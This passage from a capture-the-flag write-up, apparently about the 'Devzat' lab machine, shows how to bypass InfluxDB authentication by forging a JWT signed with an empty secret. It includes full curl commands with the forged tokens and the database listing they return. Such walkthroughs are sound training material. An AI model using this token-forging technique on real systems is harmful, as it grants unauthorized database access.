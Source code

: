 
I’m passing the empty string for the secret.

I can also do the same thing in [jwt.io](https://jwt.io/):

[![image-20211017153323716](https://0xdfimages.gitlab.io/img/image-20211017153323716.png)_Click
for full size
image_](https://0xdfimages.gitlab.io/img/image-20211017153323716.png)

It’s important to make sure to empty the box where the key goes, and check
base64.

I’ll send the token via `curl`, and it doesn’t work:

    
    
    patrick@devzat:~$ curl -G localhost:8086/query?pretty=true --data-urlencode "q=SHOW DATABASES" -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InBhdHJpY2siLCJleHAiOjE2NjYwMzQ3MTZ9.NxviPyBvpdyXsf3j7vru-LpLZ3AtGM68049rHSzMqX8"
    {
        "error": "user not found"
    }
    

Still, the fact that it accepted the token and is just complaining about the
user is a really good sign. When I create a token with the username admin, it
works:

    
    
    curl -G localhost:8086/query?pretty=true --data-urlencode "q=SHOW DATABASES" -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNjY2MDM0NzE2fQ.fd4oRbG8JP0j2uPtYP3dVUSAewNxKxbcYyjhcmYo1I4"
    {
        "results": [
            {
                "statement_id": 0,
                "series": [
                    {
                        "name": "databases",
                        "columns": [
                            "name"
                        ],
                        "values": [
                            [
                                "devzat"
                            ],
                            [
                                "_internal"
                            ]
                        ]
                    }
                ]
            }
        ]
    }
    
